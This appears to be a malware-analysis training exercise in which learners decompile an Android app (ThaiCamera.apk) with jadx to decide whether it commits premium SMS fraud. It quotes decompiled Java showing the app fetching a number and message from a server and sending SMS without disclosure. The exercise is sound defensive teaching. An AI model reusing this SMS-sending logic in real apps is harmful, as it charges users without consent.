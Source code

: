 # Exercise 2 - Reverse Engineer the DEX

## Goals:

1. Learn to analyze the Java decompilation of the DEX bytecode in jadx to understand what the Android application is doing.
2. Experience 1st hand how Android malware analysts apply reverse engineering to their context

## Context

You are a malware analyst for Android applications. You are concerned that this sample maybe doing premium SMS fraud, meaning that it sends an SMS to a premium phone number without disclosure & user consent. In order to flag as malware, you need to determine if the Android application is:

1. Sending an SMS message, and
2. That SMS message is going to a premium number, and
3. If there is an obvious disclosure, and
4. If the SMS message is only sent to the premium number after user consent.

## Instructions

- [x] ~If jadx is not already started, start jadx by opening the terminal in the VM and running the jadx-gui command in the terminal and open ThaiCamera.apk in the jadx GUI in the same way as in Exercise #1.~ If you haven't already executed it, run `jadx` against `ThaiCamera.apk` in the `samples/ThaiCamera` folder.

- [x] Remember that the manifest is available under “Resources” by clicking on AndroidManifest.xml. To analyze the DEX bytecode, you can ~click on classes under the source code tab to open each class~ browse through the classes under `ThaiCamera/sources`. jadx is a decompiler, rather than a disassembler, so it decompiles the DEX bytecode back to the Java. The decompiled Java will not look exactly the same as when the developer wrote it, however, it’s often pretty close to functionally correct.

- [ ] Begin analyzing the classes you identified as starting points in Exercise #1. When I say analyze, it’s as simple as reading each line of decompiled output until you understand what a block of code is doing. Once you understand it, take a step back and evaluate the new information you learned against the questions you’re trying to answer with your analysis (Exercise Context). Then decide where to analyze next. If you come from a Java development background, think about reverse engineering as debugging.

The code in `Loading.java` appears to send SMS messages to a number that is returned from an HTTP request without asking disclosing that it is doing so. Relevant code:

```java
// com/cp/camera/Loading.java L66
JSONObject object = new JSONObject(loginByPost(operator));
this.content = object.getString("content");
this.service = object.getString("service");


// com/cp/camera/Loading.java L129
sendMessage(this.service, this.content);

// com/cp/camera/Loading.java L105
findViewById(R.id.button_sensms).setOnClickListener(new View.OnClickListener() {
    public void onClick(View v) {
        if (Build.VERSION.SDK_INT >= 23) {
            int checkCallPhonePermission = ContextCompat.checkSelfPermission(Loading.this.getApplicationContext(), "android.permission.SEND_SMS");
            if (!Loading.this.videoShare.equals(AppEventsConstants.EVENT_PARAM_VALUE_YES) || checkCallPhonePermission != 0) {
                ActivityCompat.requestPermissions(Loading.this, new String[]{"android.permission.SEND_SMS"}, 1);
            } else if (Loading.this.service != null && Loading.this.content != null) {
                Loading.this.sendMessage(Loading.this.service, Loading.this.content);
            }
        } else if (Loading.this.service != null && Loading.this.content != null) {
            Loading.this.sendMessage(Loading.this.service, Loading.this.content);
        }
    }
});

// com/cp/camera/Loading.java L167
public void sendMessage(String mobile, String content2) {
    Bundle bundle = new Bundle();
    bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
    this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);
    Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
    itSend.putExtras(bundle);
    SmsManager sms = SmsManager.getDefault();
    PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
    try {
        if (content2.length() > 70) {
            for (String msg : sms.divideMessage(content2)) {
                sms.sendTextMessage(mobile, null, msg, sentintent, null);
            }
            return;
        }
        sms.sendTextMessage(mobile, null, content2, sentintent, null);
    } catch (Exception e) {
        SharedPreferences.Editor editor = getSharedPreferences("videoLibrary", 0).edit();
        editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_NO);
        editor.apply();
        e.printStackTrace();
    }
}
```
